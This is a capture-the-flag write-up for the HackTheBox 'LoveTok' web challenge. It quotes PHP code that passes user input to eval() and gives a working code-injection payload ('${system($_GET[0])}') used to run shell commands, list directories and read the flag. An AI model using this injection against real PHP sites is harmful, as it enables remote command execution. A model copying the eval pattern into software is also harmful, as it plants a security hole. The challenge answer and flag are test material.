 ```yaml
---
title: "LoveTok"
description: "True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). Come and check it out, but don't try to cheat love because love cheats back. 💛"
pubDate: 2024-03-06
author: "sealldev"
section: "HackTheBox"
tags: ["easy", "hackthebox-challenge"]
---
```


**Challenge created by:** [makelarisjr](https://app.hackthebox.com/users/95) & [makelaris](https://app.hackthebox.com/users/107)

After opening the ZIP, we are given a website structure built with PHP.

```
$ ls
Dockerfile build_docker.sh* challenge/ config/ entrypoint.sh* flag
```

Looking inside `challenge`, specifically `challenge/controllers/TimeController.php`, we can see it takes an input of parameter 'format':
```php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

In `challenge/models/TimeModel.php` it parses and utilises that input in the `getTime()` function called in `TimeController.php`.
```php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

This uses `eval` and the output is used on the webpage, so we could provide an input that will be evaluated as a command to read the flag.

Looking at ways to inject a command to avoid the 'format' conversion we get, I use `${}` to avoid that.

The payload I found worked consistently was: `?format=${system($_GET[0])}&0=whoami`.

I start by using `ls` and see the following response: `Router.php assets controllers index.php models static views`

Then I try `ls ..`: `bin boot dev entrypoint.sh etc flag6oJjz home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var www`

`flag6oJjz`, let's read it using `cat ../flag6oJjz`: HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}

Flag: `HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}`

![Success](images/htb/challenges/lovetok/submitted.png)